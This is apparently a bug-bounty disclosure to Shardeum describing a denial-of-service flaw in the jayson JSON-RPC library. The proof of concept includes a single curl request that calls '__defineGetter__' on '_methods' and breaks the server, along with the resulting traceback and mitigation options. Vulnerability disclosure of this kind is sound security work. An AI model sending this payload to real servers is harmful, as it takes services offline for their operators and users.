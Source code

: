 
# Taking down the HTTP server via jayson 0-day vulnerability

Submitted on Tue Jul 23 2024 19:52:16 GMT-0400 (Atlantic Standard Time) by @anton_quantish for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #33577

Report type: Websites and Applications

Report severity: Insight

Target: https://github.com/shardeum/json-rpc-server/tree/dev

Impacts:
- Taking down the application/website

## Description
## Brief/Intro
After finding
https://bugs.immunefi.com/dashboard/submission/33571
I started to play around the same code of your HTTP server which is built on Jayson and, accidentally, found a similar 0-day vulnerability there. It requires just a single request to completely take down the application.

## Vulnerability Details
The vulnerability works a very similar way. When you create the Jayson server instance, you pass the methods into constructor:
```
const server = new jayson.Server(methods)
```
They are then parsed and stored within `server._methods` mapping.
When the request is sent to the server, it first resolves the methods the following way:
```
Server.prototype.getMethod = function(name) {
  return this._methods[name];
};
```
and then executes it passing the args inside:
```
handler.call(server, ...args);
```

As far as I understand, such a call is equivalent to
```js
server[method](...args);
```

This way, we can override some server fields using the same `__defineGetter__` function. I tried to override the `_methods` field itself and completely broke the server (look at PoC).

## Impact Details
Complete HTTP server take down.
        
## Proof of concept
## Proof of Concept
1. Start the JSON-RPC server
2. Send the following request with cURL:
```
curl http://172.16.205.128:8080 -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"__defineGetter__","params":["_methods"],"id":1}'
```
3. Try to send any valid request, for instance
```
curl http://172.16.205.128:8080 -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"eth_gasPrice","params":[],"id":1}'
```
4. Make sure the traceback is returned and the same traceback is in server logs:
```
Error [ERR_HTTP_HEADERS_SENT]: Cannot set headers after they are sent to the client
    at new NodeError (node:internal/errors:399:5)
    at ServerResponse.setHeader (node:_http_outgoing:645:11)
    at ServerResponse.writeHead (node:_http_server:378:21)
    at /home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/middleware.js:51:15
    at Utils.JSON.stringify (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/utils.js:290:3)
    at /home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/middleware.js:39:18
    at callback (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/index.js:241:22)
    at respond (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/index.js:292:9)
    at Server._methods (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/index.js:329:7)
    at Server.getMethod (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/index.js:190:15)
```

I think the different impacts are also possible here but I didn't dive deeper. The RCE couldn't be achieved though I think.

## Mitigation
Since this is a 0-day vulnerability in the 3rd-party library, I think you have the following options:
- report this issue to the vendor and await for the fix to be implemented (I can assist you with that if you want me to);
- use some other  JSON-RPC server library.